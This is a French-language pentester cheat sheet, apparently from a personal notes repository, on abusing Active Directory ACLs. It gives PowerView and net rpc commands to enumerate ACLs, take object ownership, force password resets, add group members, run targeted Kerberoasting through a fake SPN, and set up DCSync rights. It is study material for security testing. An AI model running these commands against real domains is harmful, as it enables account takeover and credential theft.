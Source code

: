 ```yaml
---
public: true
---
```


## Enumération des ACLs

```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

On s'appuiera souvent sur des informations d'identification différentes d'un compte préalablement compris.

Dans ce cas, on utilisera le parametre `-Credential $creds` avec un objet PSCredential créé de la façon suivante :

```powershell
$pass = "somePass"
$user = "DOMAIN\someuser"
$creds = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $pass -AsPlainText -Force))
```

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)

Windows

```powershell
# Target to reset password
$TargedUser = 'ssmalls'
$TargetNewPass = 'NewPass@Pentest@'
# Privileged user that can ForceChangePassword
$PrivUser = 'INLANEFREIGHT.LOCAL\hporter'
$PrivPassword = 'Gr8hambino!'

$SecPassword = ConvertTo-SecureString $PrivPassword -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential($PrivUser, $SecPassword)
$NewSecPassword = ConvertTo-SecureString $TargetNewPass -AsPlainText -Force
Set-DomainUserPassword -Identity $TargedUser -AccountPassword $NewSecPassword -Credential $Cred
```

Linux

```shell
# autres méthodes disponibles (voir l'aide de bloodhound)
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

### GenericWrite

Permet :

- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit
- la modification du script de login pour tenter une exécution de code à distance (au prochain logon)

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll
#### Sur un compte utilisateur
- Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
- L'attaque se nomme "Targetted Kerberoasting".
- Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
- Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ([[Cassage de mots de passes Kerberos]])

```powershell
# Création d'un faux SPN pour pouvoir récupérer un TGS
Set-DomainObject -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# Récupération du TGS
Get-DomainUser $targetedUser | Get-DomainSPNTicket | fl
# Cleanup
Set-DomainObject -Identity $targetedUser -Clear serviceprincipalname
```

#### Sur un groupe
- elle permet de s'ajouter comme membre du groupe

#### Sur une OU
- elle permet d'ajouter un controle total sur l'OU et disposer d'un controle totale sur les objets qui sont dedans

### WriteDacl

Permet d'ajouter des DACL sur un compte utilisateur.

Cela peut permettre d'ajouter les permissions `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` et `DS-Replication-Get-Changes-In-Filtered-Set` qui permettent de réaliser une attaque ([[DCSync]])
